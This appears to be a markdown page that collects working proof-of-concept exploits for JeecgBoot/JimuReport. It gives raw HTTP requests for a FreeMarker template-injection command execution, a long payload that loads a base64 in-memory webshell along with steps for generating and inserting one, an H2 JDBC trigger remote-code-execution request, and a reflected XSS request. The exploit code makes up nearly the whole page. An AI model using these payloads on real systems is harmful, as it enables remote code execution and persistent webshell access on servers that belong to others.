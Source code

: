 ```yaml
---
layout: about
category: about
Researchname: JimuReport Vuln WalkThrough backup
toc: true
author: Bin4xin
permalink: /about/JimuReport-Vuln-WalkThrough-backup/
desc: 「JMReport」
---
```


# REF

- [xz community:: JimuReport ＜= v1.6.0 漏洞分析](https://xz.aliyun.com/t/13558){:target="_blank"}
- [Github:wy876: https://github.com/wy876/POC/blob/main/JeecgBoot%E6%BC%8F%E6%B4%9E.md](){:target="_blank"}
- [Github:wy876: JeecgBoot反射型XSS漏洞](https://github.com/wy876/POC/blob/main/JeecgBoot%E5%8F%8D%E5%B0%84%E5%9E%8BXSS%E6%BC%8F%E6%B4%9E.md){:target="_blank"}

## JeecgBoot sql注入漏洞
```
POST /jeecg-boot/jmreport/queryFieldBySql HTTP/1.1
Host: 192.168.90.1:3100
Origin: http://192.168.90.1:3100
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/json
Content-Length: 123

{"sql":"select 'result:<#assign ex=\"freemarker.template.utility.Execute\"?new()> ${ ex(\"open -a calculator.app  \") }' "}
```
## queryFieldBySql 注入内存马
```
{"sql":"call${\"freemarker.template.utility.ObjectConstructor\"?new()(\"javax.script.ScriptEngineManager\").getEngineByName(\"js\").eval(\"classLoader=java.lang.Thread.currentThread().getContextClassLoader();try{classLoader.loadClass('org.apachen.SOAPUtils').newInstance();}catch(e){clsString=classLoader.loadClass('java.lang.String');bytecodeBase64='这里填入base64的内存马';try{clsBase64=classLoader.loadClass('java.util.Base64');clsDecoder=classLoader.loadClass('java.util.Base64$Decoder');decoder=clsBase64.getMethod('getDecoder').invoke(base64Clz);bytecode=clsDecoder.getMethod('decode',clsString).invoke(decoder,bytecodeBase64);}catch(ee){try{datatypeConverterClz=classLoader.loadClass('javax.xml.bind.DatatypeConverter');bytecode=datatypeConverterClz.getMethod('parseBase64Binary',clsString).invoke(datatypeConverterClz,bytecodeBase64);}catch(eee){clazz1=classLoader.loadClass('sun.misc.BASE64Decoder');bytecode=clazz1.newInstance().decodeBuffer(bytecodeBase64);}}clsClassLoader=classLoader.loadClass('java.lang.ClassLoader');clsByteArray=(''.getBytes().getClass());clsInt=java.lang.Integer.TYPE;defineClass=clsClassLoader.getDeclaredMethod('defineClass',[clsByteArray,clsInt,clsInt]);defineClass.setAccessible(true);clazz=defineClass.invoke(classLoader,bytecode,0,bytecode.length);clazz.newInstance();};#{1};\")}","dbSource":"","type":"0"}
```
使用内存马工具生成payload，将生成的base64格式的内存马 替换payload 中bytecodeBase64的值

![image](https://github.com/wy876/POC/assets/139549762/55a9877c-c111-4897-a665-8f58e9de5300)

![image](https://github.com/wy876/POC/assets/139549762/03a476fa-7d2a-4221-9c96-c5b60040adfd)

![image](https://github.com/wy876/POC/assets/139549762/24b6b0b2-419c-43d1-a0c8-8ced440e0a79)

内存马路径：`http://192.168.18.131:8080/jeecg-boot/jmreport/queryFieldBySql/`

## JeecgBoot SSTI 漏洞
```
POST /jeecgboot/jmreport/testConnection HTTP/1.1
Host: 192.168.90.1:3100
Content-Length: 383
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36
Content-Type: application/json;charset=UTF-8
Origin: http://192.168.90.1:3100
Referer: http://192.168.90.1:3100/login?redirect=/dashboard/analysis
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{
  "id": "1",
  "code": "dataSource1",
  "dbType": "H2",
  "dbDriver": "org.h2.Driver",
  "dbUrl": "jdbc:h2:mem:test;init=CREATE TRIGGER shell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\u000A\u0009java.lang.Runtime.getRuntime().exec('open -a calculator.app')\u000A$$",
  "dbName": "test",
  "dbUsername": "sa",
  "dbPassword": "",
  "connectTimes": 5
}

```

## 漏洞分析
https://c0olw.github.io/2023/08/15/JeecgBoot-SSTI%E4%BB%A5%E5%8F%8AJDBC-RCE/

# JeecgBoot反射型XSS漏洞

```
GET /userController.do?%3CsCrIpT%3Ealert(document.domain)%3C/sCrIpT%3E HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel MacOS X 10.15; rv:126.0) Gecko/20100101Firefox/126.0
```

